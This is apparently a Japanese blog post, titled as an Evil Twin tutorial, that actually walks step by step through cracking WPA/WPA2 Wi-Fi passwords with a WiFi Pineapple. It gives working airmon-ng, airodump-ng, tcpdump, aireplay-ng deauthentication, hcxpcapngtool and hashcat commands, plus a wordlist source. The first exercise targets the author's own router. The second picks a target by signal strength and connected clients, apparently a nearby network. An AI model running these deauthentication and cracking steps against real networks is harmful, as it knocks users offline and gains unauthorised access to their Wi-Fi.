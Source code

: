 ```yaml
---
title: "Evil Twin Attack with WiFi Pineapple and Kali Linux"
date: "2025-02-08 00:00:00 +0900"
categories: [Hacking], WiFi]
tags: [Hak5, WiFi-Pineapple, WPA, WPA2, WiFi Hacking]
---
```


# Make Most of WiFi Pineapple

- ツールを活用しながら学んでいく。

## 準備

- ポケットWiFi(中古)を工場出荷時に戻す
  - ![alt text](../assets/images/Screenshot_2025-02-06_143218.png)
- SSID / PWを再設定

## 機器

- ターゲット: PoketWiFi(SSID:1337_WiFI)
- ターゲットに接続しているデバイス: Android スマホ
- Laptop: WifiPineappleとの接続とWebUI操作
- WifiPineapple

## WPA/WPA2 Crack

### ステップ
1. Recon（ネットワークスキャン） → WiFiの情報収集
2. Deauthentication Attack（Deauth攻撃） → クライアントを強制切断してハンドシェイクを取得
3. Handshake Capture（ハンドシェイクキャプチャ） → WPA/WPA2の認証データを取得
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析

### 実践_01

1. **Recon: ターゲット確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_151547.png)

2. **Deauth: クライアントの強制切断を確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_154447.png)  
   - クライアント（このWiFiに接続しているAndroidスマホ）の情報は見えない  

3. **Handshake Capture（ハンドシェイクキャプチャ）: tcpdumpモジュールを使用**  
   
   #### 3.1 インターフェースをモニターモードに変更  
   - WiFi PineappleにSSHで接続:  
     ```sh
     ssh root@172.16.42.1
     ```
   - モニターモード（Monitor Mode）を有効化:  
     ```sh
     airmon-ng start wlan1
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_170338.png)  
     - `wlan1` に対してモニターモードの仮想インターフェース `wlan1mon` が作成されていることが分かる。
   - MMとして利用できるインターフェースを特定:  
     ```sh
     iwconfig
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_165352.png)  
     - `wlan2` はクライアントモード（Managed Mode）で利用中：WiFi Pineappleが「WiFiルーターに接続する側」として動作する  
     - `wlan0-1` はアクセスポイントモード（AP Mode / Master Mode）で利用中：他のデバイスを接続させるための偽WiFi（Evil Twin Attack など）を作るときに使う  

   #### 3.2 tcpdumpモジュールをインストール  
   - `Modules` >> `install`
   - `Modules` >> `tcpdump` >> `install dependencies`

   #### 3.3 実際にキャプチャ  
   - Recon: ターゲットの情報を取得
     ![alt text](../assets/images/Screenshot_2025-02-06_172042.png)
   - wlan1mon をターゲットAPのチャネルに固定:
     ```sh
     iwconfig wlan1mon channel 11
     ```
   - `tcpdump` を使用してパケットをキャプチャ: -w は保存先でもしusbに保存したい場合: `tcpdump -i wlan1mon -w /sd/handshake.pcap` 
     ```sh
     tcpdump -i wlan1mon -w /root/handshake.pcap
     ```
   - UIでDeauth実行: コマンドで実行する場合: `aireplay-ng --deauth 10 -a <ターゲットAPのMACアドレス> wlan1mon`
   - Cnrl + C でパケットキャプチャを停止。
     ![alt text](../assets/images/Screenshot_2025-02-06_172921.png)
   - 取得したデータをLaptopに転送: `scp root@172.16.42.1:/root/handshake.pcap C:\Users\<YourUsername>\Desktop\`
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析
   - Wiresharkでデータを開いてキャプチャをフィルタリングして WPA ハンドシェイクパケットを探す: `eapol`でフィルター
     ![alt text](../assets/images/Screenshot_2025-02-06_175138.png)
   - WPA2ハンドシェイクで、パスワードを解析するために必要なデータ。File → Save As → test.cap として保存
   - Hashcatを利用: 3min
   - .pcap ファイル ⇢ .hccapxファイルへ: `hcxpcapngtool -o handshake.hccapx capture.pcap`
   - パスワードクラック: `hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt`
   - ![alt text](../assets/images/2025-02-07_16-49.png)

### 実践_02
※ wlan2が認識されないバグがあるため、アダプターを何度か抜いたりして認識させる: `iwconfig`

1. **Recon on WiFi Pineapple**  
   ![alt text](../assets/images/Screenshot_2025-02-07_215242.png)

2. **ターゲットの選定:**  
   - WPA2 PSK (CCMP) や WPA Mixed PSK (CCMP) を利用している。
   - 電波強度が -60dBm 前後のものを選択。
   - クライアント（接続デバイス）がいることを確認。

3. **モニターモード有効化とネットワーク監視:**  
   ```sh
   airmon-ng start wlan1
   airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 7 -w /sd/handshake wlan1mon
   ```
   ![alt text](../assets/images/Screenshot_2025-02-07_214904.png)

4. **キャプチャ:**  
   ```sh
   tcpdump -i wlan1mon -w /sd/practice7.pcap
   ```

5. **Deauth攻撃:**  
   ```sh
   aireplay-ng --deauth 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan1mon
   ```
  - YY: Frameが多い方のデバイスを選択。通信が多いので、キャプチャできるチャンスが増える。
  - 何度も間隔を開けて行う。Message 1 of 4 - Message 4 of 4 までのハンドシェイクのキャプチャを取得しないといけないため。
  - 4つ全て取得できるまで何度も。確認はwireshrk。

6. **キャプチャファイルの移動:**  
   ```sh
   scp root@172.16.42.1:/sd/practice.pcap C:\Users\ebisu\Desktop\
   ```

7. **Wiresharkで `eapol` を確認し保存** 
   Message 1 of 4 - Message 4 of 4 全て含まれていたら成功。

8. **Hashcatでパスワードクラック:**: 失敗  
   ```sh
   hcxpcapngtool -o handshake.hccapx practice7.pcap #.pcap ファイル ⇢ .hccapxファイルへ
   hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt
   ```
   ![alt text](../assets/images/2025-02-07_22-10.png)

9. **別のパスワードリストを使用:**: 成功  
   別のWiFI用のPWリストを取得: [WPA-Dictionary](https://github.com/TKanX/WPA-Dictionary)

   ```sh
   cat /media/.../WPA-password-dictionary/*.txt > /media/.../WPA-password-dictionary/merged_wordlist.txt #フォルダに数多くの.txtファイルがあったので１つにまとめる
   hashcat -m 22000 -a 0 -w 3 practice7.hccapx /media/.../WPA-password-dictionary/merged_wordlist.txt
   ```
   ![alt text](../assets/images/2025-02-08_07-28.png)

